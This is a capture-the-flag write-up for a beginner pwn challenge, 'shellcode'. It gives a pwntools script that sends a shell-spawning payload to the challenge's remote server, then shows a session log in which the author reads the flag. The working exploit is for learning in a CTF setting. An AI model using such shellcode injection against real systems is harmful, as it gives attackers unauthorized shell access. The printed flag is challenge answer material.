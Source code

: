 # Access Denied: Pwn/shellcode

## Question 

Beginner code.

server: nc 34.134.85.196 5337

[shellcode](shellcode)


## Solution

No real suprise here. The program executes the shellcode we give it. So we'll ask it to execute ``asm(shellcraft.sh())`` to give us a shell.

```python
from pwn import *

binary = args.BIN
context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)
r = ROP(e)

gs = '''
continue
'''

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('34.134.85.196',5337)
    else:
        return process(e.path)


p = start()
shell = asm(shellcraft.sh())
p.sendline(shell)
p.interactive()

```

Running our script yields the flag 

```
$ python3 pwn-shell.py BIN=./shellcode REMOTE
[*] '/root/workspace/access_denied/shellcode/shellcode'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[*] Loading gadgets for '/root/workspace/access_denied/shellcode/shellcode'
[+] Opening connection to 34.134.85.196 on port 5337: Done
[*] Switching to interactive mode
This only understands the machine code so you have to give only the machine code, so please enter the machine code below
$ cat flag.txt
accessdenied{3x3cut3d_x64_sh3ll_0v3rfl0w_5ucc3ssfully_611a1501}
```

